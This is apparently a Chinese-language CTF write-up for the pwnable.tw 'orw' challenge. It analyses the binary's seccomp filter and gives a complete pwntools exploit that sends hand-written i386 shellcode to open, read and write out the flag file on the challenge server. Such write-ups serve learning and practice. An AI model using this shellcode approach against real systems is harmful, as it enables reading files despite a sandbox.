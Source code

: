 ```yaml
---
layout: post
title: prctl&pwnable_orw
category: pwn
tags: [pwn]
---
```





## 相关工具
seccomp-tools https://github.com/david942j/seccomp-tools

## orw
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
拽进Ida，根据prctl函数可以确定几个结构体。
```
  qmemcpy(&sock_filter, stru_8048640, 0x60u);
  LOWORD(sfp.len) = 12;
  sfp.filter = &sock_filter;
  prctl(38, 1, 0, 0, 0);                        // prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
  prctl(22, 2, &sfp);                           // prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
```

![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct3.png)
![img](/assets/images/2020-02-07-prctl&pwnable_orw/struct1.png)


整个程序就是让我们输入一段shellcode，去打开提示所说的 **/home/orw/flag** 


```
➜  seccomp-tools dump ./orw
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
能用的函数：rt_sigreturn、sigreturn、exit_group、exit、open、read、write

## exp
```python
from pwn import *
p = remote('chall.pwnable.tw',10001)
shellcode = ''
#open(/home/orw/flag,0,0)
shellcode+=asm('mov eax,0x5;push 0x00006761;push 0x6c662f77;push 0x726f2f65;push 0x6d6f682f;mov ebx,esp;int 0x80;')
#read(3,/home/orw/flag,0x30)
shellcode +=asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov edx,0x30;int 0x80;')
#write(1,/home/orw/flag,0x30)
shellcode+=asm('mov eax,0x4; mov ebx,0x1;int 0x80;')
p.recvuntil(':')
p.send(shellcode)
p.interactive()
```

在 http://syscalls.kernelgrok.com/ 可以看到调用号和各寄存器作用